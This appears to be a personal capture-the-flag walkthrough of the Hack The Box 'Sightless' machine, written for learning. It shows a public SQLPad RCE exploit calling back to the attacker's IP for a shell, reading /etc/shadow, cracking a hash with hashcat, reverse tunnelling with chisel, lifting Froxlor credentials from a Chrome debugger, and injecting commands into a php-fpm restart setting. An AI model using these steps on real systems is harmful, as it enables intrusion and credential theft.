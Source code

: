 ```yaml
---
title: "Sightless Walkthrough(Hack The Box)"
date: 2025-04-01
draft: true
description: "Walkthrough"
tags: ["Easy", "Linux", "Hack The Box", "Hacking", "Web", "Walkthrough"]
 
---
```

## Reconnaissance #Linux 
- Got three ports open
- ![[Pasted image 20241221001932.png]]
- FTP, SSH, web server
- The page running on `nginx/1.18.0`
## Enumeration
- The web had a Slightless Titled page while scrolling through I found a link button which redirected to `sqlpad.sightless.htb` website.
- I quickly added it hosts and visited it.
- Found  RCE from google in single search : https://github.com/shhrew/CVE-2022-0944.git
## Exploitation
- By executing it got shell
```
python3 main.py http://sqlpad.sightless.htb/ 10.10.14.12 6001
```
- There was a sqlite file in the current working  directory but there isn't any way to transfer it to our machine cause no versions of python installed
- Then I got to know that this is a docker image that we are in
- ![[Pasted image 20241221022335.png]]
- Cause it is weird to have this directory here.
- Anyway from `/etc/passwd`got know that there are two users
- ![[Pasted image 20241221022519.png]]
- From shadow I got the hash of user michael for cracking. Ignore the root hash i am pretty sure it will waste our time.
- ![[Pasted image 20241221022725.png]]
- After finding the module cracked it with my goto tool
```
 hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
```
- then logged in via SSH
- Got user flag
- ![[Pasted image 20241221023004.png]]
## Privilege Escalation
- Done some enumeration but `ss -tunlp` looked sus
- Too many ports don't ya think
- ![[Pasted image 20241221023121.png]]
- So I decided to forward all the weird looking ports to my machine
- On my machine
```
chisel server -p 7001 --reverse
```
- On the target machine
```
./chisel client 10.10.14.12:7001 R:3306:localhost:3306 R:44771:localhost:44771 R:8080:localhost:8080 R:43047:localhost:43047 R:41049:localhost:41049 R:3000:localhost:3000 R:33060:localhost:33060
```
- It seems that port 8080 is running Froxlor, which required credentials to login
- All the remaining ports seems to suspicious cause most are non-http ones
- Some of the ports are using chrome debugger internally to do some tasks.
- So I opened chrome and navigated to here chrome://inspect/#devices and added all the ports using configure.
- ![[Pasted image 20241221023839.png]]
- Got some hits. I clicked inspect and saw it automatically logging into Froxlor with credentials often
- From the Network tab, got auth request and got the password and username.
- ![[Pasted image 20241221024137.png]]
- Used those creds and got into Froxlor
- While hanging around there discovered a interesting endpoint that could lead to command injection
- ![[Pasted image 20241221024348.png]]
- Created a New PHP version from PHP-FPM versions
- In the php-fpm restart command filled with `cp /root/root.txt /home`
- Then went to settings and then restarted the php-fpm
- After 3-5 min I got the file in the home directory but we need permissions so again using the same method modified the command to `chmod 777 /home/root.txt`
- ![[Pasted image 20241221024823.png]]
- Got the user flag. Then realized from the start I should've changed permissions for root directory itself
- ![[Pasted image 20241221024851.png]]

